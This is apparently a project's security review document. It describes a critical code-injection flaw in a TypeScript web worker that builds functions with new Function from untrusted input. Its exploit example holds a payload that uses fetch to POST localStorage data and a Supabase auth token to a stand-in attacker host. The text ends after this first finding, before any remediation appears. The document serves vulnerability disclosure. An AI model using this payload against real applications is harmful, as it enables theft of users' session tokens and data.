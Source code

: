 # Security Documentation

## Overview

This document outlines security vulnerabilities discovered during code review, their severity, impact, and remediation steps. All issues are categorized by priority and include actionable fixes.

**Last Updated:** January 2025
**Review Grade:** C+ (60/100) - Critical issues require immediate attention

---

## 🚨 Critical Vulnerabilities (Fix Immediately)

### 1. Code Injection via Dynamic Function Execution

**Severity:** CRITICAL
**CWE:** CWE-94 (Code Injection)
**CVSS Score:** 9.8 (Critical)

**Location:** `src/lib/utils/web-worker.ts:61`

**Vulnerable Code:**
```typescript
const processor = new Function('return ' + data.fn)() as (item: T) => R
```

**Attack Vector:**
An attacker who can control the `data.fn` parameter can execute arbitrary JavaScript code in the web worker context.

**Impact:**
- Remote Code Execution (RCE)
- Data exfiltration
- Session hijacking
- Complete compromise of client-side security

**Exploit Example:**
```typescript
// Malicious payload
const maliciousFunction = `
  (function() {
    // Steal localStorage data
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify({
        tokens: localStorage.getItem('supabase.auth.token'),
        userData: localStorage
      })
    });
    return (item) => item;
  })()
`;

// If this reaches the web-worker, code is executed
processArrayInWorker(data, maliciousFunction);
```
